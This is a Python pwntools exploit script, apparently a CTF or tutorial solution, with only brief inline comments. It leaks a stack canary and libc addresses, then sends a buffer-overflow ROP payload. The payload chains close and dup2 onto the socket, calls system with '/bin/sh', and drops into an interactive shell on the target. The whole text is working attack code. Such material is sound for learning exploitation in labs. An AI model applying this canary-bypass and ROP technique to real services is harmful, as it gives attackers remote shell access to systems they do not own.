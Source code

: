 ```
sys_adr = leak - 0x2ad80
clo_adr = leak + 0x88af0
dup_adr = leak + 0x88b50
bsh_adr = leak + 0x11a820

#Print the calculated addresses
print "sys: " + hex(sys_adr)
print "clo: " + hex(clo_adr)
print "dup: " + hex(dup_adr)
print "bsh: " + hex(bsh_adr) 

#Select the second option and send a newline character
print target.recvuntil("Quit")
target.sendline("2")
print target.recvuntil(">")
print target.recvline()
target.sendline("")
print target.recvline()

#Store the output
can = target.recvline()

#Filter out the stack canary
can = can.replace("-Tutorial-", "")
#can = can.replace("\x00", "")
can = can[-16:]
can0 = can[:len(can)/2]
can1 = can[len(can)/2:]
can = can[-13:]
can = can[:8]

#can = "\x00" + can
print len(can0)
print len(can1)

#Convert the canary to a human readable format and print them
read_can = hex(unpack(can, 64, endian='little', sign=False))
read_can0 = hex(unpack(can0, 64, endian='little', sign=False))
read_can1 = hex(unpack(can1, 64, endian='little', sign=False))
print "The stack canary is: " + read_can
print "The first canary is: " + read_can0
print "The second canary is: " + read_can1

#Select the second option again
print target.recvuntil("Quit")
target.sendline("2")
print target.recvuntil(">")
print target.recvline()

#Construct the payload and send it
rop = "\xe3\x12\x40\x00\x00\x00\x00\x00"
socket = "\x04\x00\x00\x00\x00\x00\x00\x00"
one = "\x01\x00\x00\x00\x00\x00\x00\x00"
zero = "\x00\x00\x00\x00\x00\x00\x00\x00"

#Construct the payload and send it
payload = "0"*312 + can + "0"*8 + rop + zero + p64(clo_adr) + rop + one + p64(clo_adr) + rop + socket + p64(dup_adr) + p64(dup_adr) + rop + p64(bsh_adr) + p64(sys_adr) #+ "\x00"
target.sendline(payload)

#Drop to an interactive console
target.interactive()

```